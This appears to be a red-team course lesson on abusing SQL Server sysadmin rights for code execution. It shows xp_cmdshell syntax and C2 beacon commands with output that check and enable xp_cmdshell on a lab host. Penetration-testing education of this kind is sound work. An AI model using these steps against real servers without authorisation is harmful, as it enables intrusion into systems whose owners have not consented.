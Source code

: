 # Code Execution

We may run into a scenario where we have access to one or more user accounts that do not have local admin privileges on the SQL server itself, but they do have a privileged SQL role, such as sysadmin.  There are multiples techniques by which we can abuse that access get code execution on the server via the SQL instance.

Unfortunately, there's not much we can do to abuse a SQL instance without sysadmin privileges.  Each of the techniques discussed in this lesson are disabled by default on new SQL server installations, but they can be enabled by a sysadmin.

### xp\_cmdshell <a href="#el_1743855431219_364" id="el_1743855431219_364"></a>

The `xp_cmdshell` stored procedure is probably the most well known method for executing commands via a SQL server.  It spawns a command shell, passes the string for execution, and returns any output as rows of text.  The SQL syntax is simply:

```
EXEC xp_cmdshell '<command>';
```

The command string can't contain more than one set of double quotation marks, and a single pair of quotation marks is required if any spaces are present.

First, we query the server to see if xp\_cmdshell is already enabled using `sql-query`.

```batch
beacon> sql-query lon-db-1 "SELECT name,value FROM sys.configurations WHERE name = 'xp_cmdshell'"

[*] Connecting to lon-db-1:1433
[+] Successfully connected to database
[*] Executing custom query on lon-db-1

name | value | 
---------------
xp_cmdshell | 0 |

[*] Disconnecting from server
```

A value of `0` means it's disabled, so enable it using the `sql-enablexp` command.  This works by running an [sp\_configure](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-configure-transact-sql) query.

```batch
beacon> sql-enablexp lon-db-1

[*] Connecting to lon-db-1:1433
[+] Successfully connected to database
[*] Toggling xp_cmdshell on lon-db-1...

name | value_in_use | 
----------------------
xp_cmdshell | 1 | 

[*] Disconnecting from server
```
